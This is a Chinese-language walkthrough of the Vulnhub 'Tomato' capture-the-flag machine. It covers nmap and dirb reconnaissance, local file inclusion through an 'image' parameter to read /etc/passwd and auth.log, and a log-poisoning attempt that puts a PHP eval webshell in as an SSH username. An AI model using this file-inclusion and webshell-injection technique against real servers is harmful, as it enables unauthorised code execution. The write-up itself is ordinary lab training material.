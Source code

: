 # Tomato

### 目标探测

Nmap扫描目标开放端口

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# nmap -sV -sT -sC -oA nmap_initial 192.168.19.147 -oN nmap.txt
Nmap scan report for 192.168.19.147
Host is up (0.0077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:6E:EA:1C (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 11 08:49:39 2023 -- 1 IP address (1 host up) scanned in 9.50 seconds
```

访问一下目标的80端口

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

没什么有用的信息，在看看8888端口

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

好吧，是个登录界面，让我们再回到80端口页面，dirb扫描看下有没有扫描有用的东西

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# dirb http://192.168.19.147/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 12 06:27:27 2023
URL_BASE: http://192.168.19.147/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.19.147/ ----
==> DIRECTORY: http://192.168.19.147/antibot_image/                                                                
+ http://192.168.19.147/index.html (CODE:200|SIZE:652)                                                             
+ http://192.168.19.147/server-status (CODE:403|SIZE:279)                                                          
                                                                                                                   
---- Entering directory: http://192.168.19.147/antibot_image/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Sep 12 06:27:30 2023
DOWNLOADED: 4612 - FOUND: 2
```

让我们访问一下/antibot\_image这个目录，发现了一些有趣的东西

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

发现info.php是一个phpinfo页面，

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

查看网页源码发现有一个注释有一个文件包含，传的参数为image

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

我们尝试一下LFI读取一下它的/etc/passwd

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

看下能否读取到它的服务日志文件，通过nmap扫描的信息可以看出它有两个web服务日志，Apache和Nginx，有关文件包含的内容我们可以查看下面这篇文章。

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion" %}

我们尝试包含一下/var/log/auth.log这个文件

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

然后我们尝试以一句话木马作为用户名ssh登录

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/Vulnhub/Tomato]
└─# ssh '<?php @eval($_POST['a']) ?>'@192.168.19.147
ssh: connect to host 192.168.19.147 port 22: Connection refused
```

